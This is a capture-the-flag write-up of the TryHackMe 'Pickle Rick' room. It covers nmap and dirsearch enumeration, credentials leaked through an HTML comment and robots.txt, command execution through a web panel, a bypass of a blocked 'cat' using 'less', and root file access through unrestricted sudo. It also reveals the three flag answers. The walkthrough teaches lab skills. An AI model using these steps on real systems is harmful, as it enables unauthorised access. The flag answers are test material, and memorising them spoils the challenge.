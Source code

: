 ```yaml
---
tags: [tryhackme, exploit, easy]
categories: [tryhackme, exploit, easy]
icon: chevron-right
author: Ivo Muijtjens
date: 2022-05-29
---
```

![](/static/headers/pickle-rick.png)

# Pickle Rick

This Rick and Morty themed challenge requires you to exploit a webserver to find 3 ingredients that will help Rick make his potion to transform himself back into a human from a pickle. As preparation for this room, I recommend following the Web Hacking Fundamentals path to get familair with the commands:

[!ref target="blank" text="How websites work" icon="../static/icons/websites.png"](https://tryhackme.com/room/howwebsiteswork)
[!ref target="blank" text="HTTP in detail" icon="../static/icons/http.png"](https://tryhackme.com/room/httpindetail)
[!ref target="blank" text="Burp Suite: The Basics" icon="../static/icons/burp.png"](https://tryhackme.com/room/burpsuitebasics)
[!ref target="blank" text="OWASP Top 10" icon="../static/icons/owasp.png"](https://tryhackme.com/room/owasptop10)
[!ref target="blank" text="OWASP Juice Shop" icon="../static/icons/juice.png"](https://tryhackme.com/room/owaspjuiceshop)
[!ref target="blank" text="Upload Vulnerabilities" icon="../static/icons/vulnerabilities.png"](https://tryhackme.com/room/uploadvulns)

---

# Writeup

### Enumeration

**What is the first ingredient Rick needs?**

First step is to start with enumeration. Let's start with a nmap scan on the IP-address of the webserver: `nmap -A 10.10.92.155 -Pn`.

    Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-29 06:11 EDT
    Nmap scan report for 10.10.92.155
    Host is up (0.035s latency).
    Not shown: 998 closed tcp ports (conn-refused)
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 ea:6b:0c:04:ff:3b:ce:b6:53:30:83:5e:94:26:e3:30 (RSA)
    |   256 b8:cf:b9:98:7d:c5:10:62:e1:76:ea:fa:cc:d5:43:95 (ECDSA)
    |_  256 c1:8f:c0:60:46:f4:e9:72:fb:e8:5f:40:15:a6:eb:98 (ED25519)
    80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
    |_http-title: Rick is sup4r cool
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 9.26 seconds

The nmap scan gives us some information. There are 2 open ports: 22 (SSH) and 80 (HTTP). The webserver runs on Apache 2.4.18. Let's open the webpage in our browser to investigate it a little more.

![Homepage of the website](/static/images/website.png)

No useful data visible on the homepage. What if we view the page source?

![Page source of the website](/static/images/pagesource.png)

We see the developer made a HTML comment between the `<!-- -->` tags. Now we know the username, but how can we use it? The homepage looks like a static webpage without a login form. Let's dig in a little further.

    <!--

        Note to self, remember username!

        Username: R1ckRul3s

    -->

I've use the tool dirsearch to scan the webserver: `dirsearch -u http://10-10-92-155.p.thmlabs.com/`. The tool found some interesting files and directories to work with.

    [06:45:04] 200 -    2KB - /assets/
    [06:45:10] 200 -    1KB - /index.html                                       
    [06:45:12] 200 -  882B  - /login.php                                        
    [06:45:18] 200 -   17B  - /robots.txt

First thing I did was checking the files in the assets folder. It contains some images plus .css and .js files. I can't find something useful in here.

![Assets](/static/images/assets.png)

The `index.html` file is the default homepage. Next is a `login.php` file which is the most interesting file. Let's open this in our browser to see what is does:

![Portal login page](/static/images/login.png)

A login page that requires a username and password. We found out about the username, but we don't have a password. First of all, let's check the last file that we found with dirsearch: `robots.txt`. This file tells search engine crawlers which URL's it may access on a webserver. This file contains a weird word: `Wubbalubbadubdub`. Could this be our password? Let's try it out on the login page.

**Username:** R1ckRul3s

**Password:** Wubbalubbadubdub

We're in and have been redirected to `portal.php`. Type in `ls` to list all files and directories. I see 2 interesting files: `Sup3rS3cretPickl3Ingred.txt` and `clue.txt`.

![Command panel](/static/images/command.png)

Let's try the command `cat Sup3rS3cretPickl3Ingred.txt` to see if we can read the contents of the file. The command is disabled.

![Command disabled](/static/images/disabled.png)

We have another utility in Linux to read file contents, let's try the `less` command: `less Sup3rS3cretPickl3Ingred.txt`. That command isn't blocked. We found our first flag.

==- Reveal Flag 1
mr. meeseek hair
===

**Whats the second ingredient Rick needs?**

Remember there was a second file called `clue.txt`. Let's find out if it can lead us to other flags. Type in `less clue.txt`.

    Look around the file system for the other ingredient.

So we can find the other flags by looking around in the file system. First I'm gonna check if there is a home folder. To combine command I'm gonna use the `&&` operator, since the portal page changes back to the webroot after every executed command. The first command I used is `cd /home && ls`. The output shows me there are 2 homefolders:

    rick
    ubuntu

Let's check the contents of the folder `rick`. Change the command to `cd /home/rick && ls` and execute it. Cool, there is a file called `second ingredients`. Let's open it with the `less /home/rick/'second ingredients'` command. There is our second flag.

==- Reveal Flag 2
1 jerry tear
===

**Whats the final ingredient Rick needs?**

What other files can I find on the file system? Let's see if I'm able to run sudo with the command `sudo -l`.

    Matching Defaults entries for www-data on ip-10-10-92-155.eu-west-1.compute.internal:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User www-data may run the following commands on ip-10-10-92-155.eu-west-1.compute.internal:
        (ALL) NOPASSWD: ALL

Yes, I can. Now that I've confirmed I can run sudo, I'm able to access the root directory. I can list the contents with command `sudo ls -la /root`.

    total 28
    drwx------  4 root root 4096 Feb 10  2019 .
    drwxr-xr-x 23 root root 4096 May 29 10:10 ..
    -rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
    -rw-r--r--  1 root root  148 Aug 17  2015 .profile
    drwx------  2 root root 4096 Feb 10  2019 .ssh
    -rw-r--r--  1 root root   29 Feb 10  2019 3rd.txt
    drwxr-xr-x  3 root root 4096 Feb 10  2019 snap

There is a file called `3rd.txt` that might be interesting. Let's read the contents with command `sudo less /root/3rd.txt`. This file contains our last flag.

==- Reveal Flag 3
fleeb juice
===

!!!success
Congratiulations, you've completed the room.
!!!